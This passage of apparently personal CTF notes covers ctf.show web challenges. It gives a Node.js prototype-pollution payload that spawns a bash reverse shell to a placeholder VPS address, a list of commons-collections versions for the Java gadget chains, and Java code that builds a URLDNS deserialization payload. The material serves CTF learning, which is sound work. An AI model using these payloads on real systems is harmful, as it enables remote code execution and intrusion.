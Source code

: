 需要多级污染


```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1\"')"}}}
```

```mermaid
graph TD
user.userinfo.__proto__-->匿名函数.prototype-->Object.prototype
```

## java反序列化

cc1、cc3、cc5、cc6、cc7对应的commons-collections:3.1
cc2、cc4对应的commons-collections4:4.0



### web846
```java
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Objects;

public class test {
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        oos.close();

        byte[] serializeData= Files.readAllBytes(Paths.get("ser.bin"));
        String base64Encoded= Base64.getEncoder().encodeToString(serializeData);
        System.out.println(base64Encoded);
    }
    public static void main(String[] args)  throws Exception{
        HashMap<URL,Integer> hashmap=new HashMap<>();
        URL url =new URL("http://1c9e258a-5d11-4e7e-b9f2-6c7e7ffa94be.challenge.ctf.show/");

        Class c=url.getClass();
        Field hashcodefield=c.getDeclaredField("hashCode");
        hashcodefield.setAccessible(true);
        hashcodefield.set(url,1234);
        hashmap.put(url,1);
        System.out.println(url);
        hashcodefield.set(url,-1);
        serialize(hashmap);
    }

}

```
